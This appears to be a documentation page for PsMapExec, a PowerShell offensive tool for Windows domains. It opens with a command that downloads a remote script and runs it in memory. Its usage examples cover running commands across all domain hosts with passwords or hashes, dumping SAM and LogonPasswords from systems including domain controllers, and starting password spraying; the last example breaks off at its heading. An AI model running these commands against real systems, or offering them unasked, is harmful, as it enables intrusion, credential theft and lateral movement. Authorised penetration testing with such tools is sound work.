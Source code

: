 # 🔵 PsMapExec

<figure><img src="../.gitbook/assets/279332478-14770c85-b751-4127-8261-2e49ff25a8ad.png" alt="" width="375"><figcaption></figcaption></figure>

**Get it on GitHub:** [https://github.com/The-Viper-One/PsMapExec](https://github.com/The-Viper-One/PsMapExec)

```powershell
# Load directly into memory and execute
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/PsMapExec/main/PsMapExec.ps1")
```

## Usage Examples

```powershell
# Execute WMI commands over all systems in the domain using password authentication
 PsMapExec -Targets all -Method WMI -Username Admin -Password Pass -Command ""net user""

# Execute WinRM commands over all systems in the domain using hash authentication
PsMapExec -Targets all -Method WinRM -Username Admin -Hash [Hash] -Command ""net user""

# Check RDP Access against workstations in the domain and using local authentication
PsMapExec -Targets Workstations -Method RDP -Username LocalAdmin -Password Pass -LocalAuth
 
# Dump SAM on a single system using SMB and a -ticket for authentication
PsMapExec -Targets DC01.Security.local -Method SMB -Ticket [Base64-Ticket] -Module SAM

# Check SMB Signing on all domain systems
PsMapExec -Targets All -Method GenRelayList

# Dump LogonPasswords on all Domain Controllers over WinRM
PsMapExec -Targets DCs -Method WinRM -Username Admin -Password Pass -Module LogonPasswords

# Use WMI to check current user admin access from systems read from a text file
PsMapExec -Targets C:\temp\Systems.txt -Method WMI

# Spray passwords across all accounts in the domain
```